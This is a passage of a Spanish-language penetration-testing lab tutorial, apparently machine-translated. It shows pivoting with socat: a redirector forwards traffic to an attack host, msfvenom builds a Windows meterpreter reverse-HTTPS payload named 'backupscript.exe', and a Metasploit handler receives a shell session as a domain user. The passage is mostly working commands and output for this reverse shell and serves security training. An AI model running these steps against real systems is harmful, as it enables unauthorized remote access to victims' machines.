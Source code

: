 # Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat)es una herramienta de retransmisión bidireccional que puede crear enchufes de tuberías entre`2`canales de red independientes sin necesidad de usar túneles SSH. Actúa como un redirector que puede escuchar en un host y puerto y reenviar esos datos a otra dirección IP y puerto. Podemos iniciar el oyente de Metasploit usando el mismo comando mencionado en la última sección de nuestro host de ataque, y podemos comenzar`socat`en el servidor Ubuntu.

### **Comenzando Socat Oyente**

Redirección de Socat con una carcasa inversa

```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat escuchará en localhost en el puerto`8080`y reenviar todo el tráfico al puerto`80`en nuestro host de ataque (10.10.14.18). Una vez que se configura nuestro redirector, podemos crear una carga útil que se conectará a nuestro redirector, que se ejecuta en nuestro servidor Ubuntu. También comenzaremos un oyente en nuestro host de ataque porque tan pronto como Socat reciba una conexión de un objetivo, redirigirá todo el tráfico al oyente de nuestro anfitrión de ataques, donde obtendríamos un caparazón.

### **Creando la carga útil de Windows**

Redirección de Socat con una carcasa inversa

```
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe

```

Tenga en cuenta que debemos transferir esta carga útil al host de Windows. Podemos usar algunas de las mismas técnicas utilizadas en secciones anteriores para hacerlo.

### **Iniciar consola MSF**

Redirección de Socat con una carcasa inversa

```
xnoxos@htb[/htb]$ sudo msfconsole<SNIP>

```

### **Configurar y iniciar el Multi/Handler**

Redirección de Socat con una carcasa inversa

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80

```

Podemos probar esto ejecutando nuestra carga útil en el host de Windows nuevamente, y deberíamos ver una conexión de red desde el servidor Ubuntu esta vez.

### **Establecer la sesión de meterpreter**

Redirección de Socat con una carcasa inversa

```
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```